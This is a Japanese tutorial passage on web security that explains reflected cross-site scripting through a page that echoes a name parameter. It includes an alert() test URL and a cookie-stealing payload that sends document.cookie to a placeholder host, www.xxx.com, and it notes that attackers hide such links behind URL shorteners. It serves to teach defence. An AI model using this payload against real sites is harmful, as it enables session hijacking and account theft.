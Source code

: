 Webアプリケーションはユーザが送信したリクエストのデータに対し十分な検査およびフィルタリングを行なっていないと、ユーザが送信するデータにHTMLコードを許してしまい（主に">"、"<"）、エスケープされていない悪意あるコードを第三者であるユーザのブラウザ上で解釈/実行させてしまいます。これがXSSセキュリティホールを生み出す原因となっています。

以下ではリフレクション型XSSを例にXSSのプロセスをご説明します：パラメータによってユーザの名前を出力するページがあるとします。例えばurl：\texttt{http://127.0.0.1/?name=astaxie}にアクセスすると、ブラウザでは以下のような情報を出力します：

\begin{lstlisting}[numbers=none]
hello astaxie
\end{lstlisting}

もし我々が\texttt{http://127.0.0.1/?name=\&\#60;script\&\#62;alert(\&\#39;astaxie,xss\&\#39;)\&\#60;/script\&\#62;}のようなurlを送信した場合、ブラウザがダイアログを表示することに気づくでしょう。これはつまり、ページにXSSセキュリティホールが存在することを示しています。では悪意あるユーザはどのようにしてCookieを盗み出すのでしょうか？上と同じように、\texttt{http://127.0.0.1/?name=\&\#60;script\&\#62;document.location.href=\\'http://www.xxx.com/cookie?'+document.cookie\&\#60;/script\&\#62;}というurlでは、現在のcookieが指定されたページ、\texttt{www.xxx.com}に送信されます。このようなURLは一目見て問題があるとわかると思われるかもしれません。いったい誰がクリックするのかと。そうです。このようなURLは人に疑われがちです。しかしURL短縮サービスを使ってこれを短縮した場合、あなたは気づくことができるでしょうか？攻撃者は短縮されたurlをなんらかの経路で広め、真相を知らないユーザが一旦このようなurlをクリックすることで、対応するcookieデータがあらかじめ設定されたページに送信されてしまいます。このようにユーザのcookie情報を盗んだあとは、Websleuthといったツールを使うことでこのユーザのアカウントを盗み出すことができるか検査されてしまいます。
